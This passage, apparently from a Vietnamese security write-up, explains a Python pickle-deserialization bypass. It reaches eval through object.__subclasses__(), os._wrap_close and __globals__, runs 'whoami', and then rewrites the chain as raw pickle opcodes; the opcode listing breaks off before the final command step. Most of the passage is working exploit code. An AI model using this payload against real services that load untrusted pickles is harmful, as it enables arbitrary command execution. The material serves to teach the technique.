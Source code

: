3. Khi ta thực thi method `list.__getitem__(key)` thì nó đơn giản là trả về list[key]. Ở phần code thì nó trả về `object.__subclasses__()__getitem__(155)` rồi !

Như vậy là ta đã có thể truy cập đến class os._wrap_close chỉ với việc thực thi các method khác nhau một cách vi diệu.

```python
myinit = myatrr(myoswrapclose, '__init__')               #[1]
myglobals = myatrr(myinit, '__globals__')
mybuiltinsdict = myatrr(myglobals, '__getitem__')        #[2]
mybuiltins = mybuiltinsdict('__builtins__')
myevaldict = myatrr(mybuiltins, '__getitem__')           #[3]
myeval = myevaldict('eval')
mycommand = myeval('__import__("os").system("whoami")')

print(mycommand) #nguyenlong05
```

Phân tích phần tiếp theo để đi đến eval:

1. Ta tiếp tục chain bằng method `object.__getattribute__` định nghĩa ở trên, lần lượt đi tới `object.__subclasses__()[137].__init__.__globals__`

2. Lưu ý rằng, lúc này `__globals__` chứa các dict cho nên khi ta trích xuất builtins lại một lần nữa sử dụng `__getitem__`. Ở đây getitem trả về value trong dict cho nên ta truyền giá trị là key vào method getattribute. Cuối cùng ta nhận được `__globals__['__builtins__']`

3. Lặp lại một lần nữa ta nhận được `__globals__['__builtins__']['eval']`,
   chính là method eval. Cuối cùng thực thi hàm này với tham số là command
   cần được thực thi, xác nhận khả năng bypass của payload.

Thực hiện viết lại payload dưới dạng bytecodes của pickles như sau:

```
raw = (
    b"\x80\x04"
    # mysubclasses
    b"c__main__\n__class__.__base__.__subclasses__\n"
    b"(" b"t" b"R"                # () → __subclasses__() -> list
    b"p0\n"                       # memo[0] = subclasseslist
    # myattr
    b"c__main__\n__class__.__base__.__getattribute__\n"
    b"p1\n"                       # memo[1] = object.__getattribute__
    # mygetitem
    b"(" b"g0\n" b"V__getitem__\n" b"t" b"R"
    # myoswrapclose = mygetitem(155)
    b"(" b"I155\n" b"t" b"R"
    b"p2\n"                       # memo[2] = myoswrapclose
    # myinit
    b"g1\n"                       # push __getattribute__
    b"(" b"g2\n" b"V__init__\n" b"t" b"R"
    b"p3\n"                       # memo[3] = myinit
    # myglobals
    b"g1\n" b"(" b"g3\n" b"V__globals__\n" b"t" b"R"
    b"p4\n"                       # memo[4] = myglobals (dict)
    # mybuiltinsdict
    b"g1\n" b"(" b"g4\n" b"V__getitem__\n" b"t" b"R"
    b"p5\n"                       # memo[5] = mybuiltinsdict (bound)
    # mybuiltins
    b"(" b"V__builtins__\n" b"t" b"R"
    b"p6\n"                       # memo[6] = __builtins__ (dict/module)
    # myevaldict
    b"g1\n" b"(" b"g6\n" b"V__getitem__\n" b"t" b"R"
    b"p7\n"                       # memo[7] = myevaldict
    # myeval
    b"(" b"Veval\n" b"t" b"R"
    b"p8\n"                       # memo[8] = eval
    # mycommand
```